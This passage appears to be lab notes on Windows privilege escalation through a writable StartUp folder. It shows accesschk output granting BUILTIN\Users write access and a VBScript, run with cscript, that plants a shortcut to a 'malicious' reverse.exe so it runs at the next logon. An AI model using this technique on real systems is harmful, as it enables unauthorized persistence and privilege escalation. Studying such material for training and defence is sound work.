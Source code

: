 **NOTE** correct path should be: `file://c:\windows\system32\cmd.exe`

![](Pasted%20image%2020230731125925.png)

## startup apps

Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:

```bash
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

This script will create a shortcut for our malicious `reverse.exe` file:

```bash
C:\Windows\system32>type C:\PrivEsc\CreateShortcut.vbs
type C:\PrivEsc\CreateShortcut.vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

```
C:\Users\user>cscript C:\PrivEsc\CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.


C:\Users\user>
```
